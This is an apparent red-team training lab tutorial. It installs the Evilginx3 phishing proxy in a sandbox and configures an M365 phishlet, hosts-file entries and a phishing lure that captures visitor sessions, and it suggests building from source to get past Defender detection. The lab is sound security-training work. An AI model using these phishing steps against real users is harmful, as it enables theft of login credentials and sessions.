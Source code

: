 # Quest 1 - Buckle up!

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

In this tutorial, you will perform basic deployments to set up your environment for the hands-on lab. You will also learn how to install a phishing simulation tool to prepare for the next quest.

## Installation for hands-on lab

### Step 0: Consider using a virtual sandbox to keep your machine "clean"

A common practice for "playing" with hacking tools is to utilize an isolated environment. This can be a virtual machine or a container. This way, you can keep your main machine clean and avoid any unintended consequences. Below are a couple of suggestions.

* Local virtual machines (embedded in your physical device)
    * [Hyper-V on Windows 10](https://docs.microsoft.com/virtualization/hyper-v-on-windows/quick-start/enable-hyper-v) or
    * [VirtualBox](https://www.virtualbox.org/) or similar.
* Remote virtual machines (Hyperscaler options)
    * Spin up environments with [Azure VMs](https://azure.microsoft.com/free/) with free credits or
    * Any other available to you.
* Containerized options
    * Use environments like [Docker](https://www.docker.com/products/docker-desktop) on Windows or
    * Podman on linux.

Our guidance here refers to a windows environment on an Azure VM. You can adjust the steps to your environment.

### Step 1: Install Evilginx3

Find the documentation for the tool [here](https://help.evilginx.com/docs/intro).

Install [git](https://git-scm.com/downloads) if you haven't already.

```bash
git clone https://github.com/kgretzky/evilginx2.git
```

> [!TIP]
> If you have not installed a Git client, you can also go directly to the [Evilginx3 repo](https://github.com/kgretzky/evilginx2), click on *Code* and *Download ZIP*. Once the ZIP file is downloaded extract it to your virtual machine. 

> [!IMPORTANT]
> Many of you will run into Defender detections with the executable upon [download](https://github.com/kgretzky/evilginx2/releases). Consider building the tool from source in such cases.

#### Build from source

- Install [golang](https://go.dev/doc/install)
- Restart your terminal and verify the installation with `go version` command.

```bash
cd evilginx2
.\build_run.bat
```

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

#### (Alternative) Install the pre-built version

In case you are lucky you can follow the normal install steps:

- Get the latest release from the [releases page](https://github.com/kgretzky/evilginx2/releases) (Assets -> evilginx*-64bit.zip) and follow the [quick start guide](https://help.evilginx.com/docs/getting-started/deployment/local).

- Allow Access on subsequent Defender firewall prompt like a vigilante in the making.

### Step 2: Configure Evilginx3

```bash
config ipv4 127.0.0.1
config domain dsag-red-team.com
```

![Configure evilginx3](assets/quest1/config-evilginx3.png)

> [!NOTE]
> hackers use elusive domains like 'microsofttonline.com' to trick users. Outlook and M365 pick up such attempts, but other email clients may not. Note we use a domain that is not registered and only used for this tutorial.

- Find the root certificate in the `User` folder (%USERPROFILE%\\.evilginx\crt) and install it on your machine.
![find root certificate](assets/quest1/install-certificate.png)

- Add this certificate to the Trusted Root Certificate Authorities store of the Current User. Otherwise, you will get a certificate error when accessing the phishing page.

You may need to restart your machine for the changes to take effect.

### Step 3: Create or retrieve a phishlet for your scenario

We will use a sample phishlet for M365 shared by [Jan Bakker](https://github.com/BakkerJan/evilginx3/blob/main/microsoft365.yaml).

- Download it or find it in the `assets` folder of this repository [here](assets/m365-phishlet.yaml).
- Place the phishlet by placing it in `.\evilginx2\phishlets` folder of the prior cloned repos `evilginx2`. It contains the example phishlet.

Restart your instance for the changes to take effect like so:

```bash
q
build_run.bat
```

- Verify the M365 phishlet is now showing up.
![new phishlet](assets/quest1/new-phishlet.png)

> [!TIP]
> Always check for updates on the phishlets and the tool itself. Things are changing rapidly in the security world.

### Step 4: Prepare your phishing lure

```bash
phishlets hostname microsoft365 dsag-red-team.com
phishlets enable microsoft365 
```
![prepare phishing lure](assets/quest1/prepare-phsishing-lure.png)

#### Enhance hosts file for local testing

```bash
phishlets get-hosts microsoft365
```
![get-hosts](assets/quest1/phshlet-gethost.png)

- Add the output to your hosts file located at `C:\Windows\System32\drivers\etc\hosts`. You will need admin rights to edit this file.
![hosts](assets/quest1/hosts.png)

#### Create your phishing lure

```bash
lures create microsoft365
lures get-url 0
```
![creat fishing lure](assets/quest1/create-phishing-lure.png)

- Open the URL in your browser to see the phishing page.
- Check the Evilginx3 console for the captured output so far ("new visitor has arrived" etc.).
![new visitor](assets/quest1/new-visitor.png)

## Where to next?

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

[🔝](#)
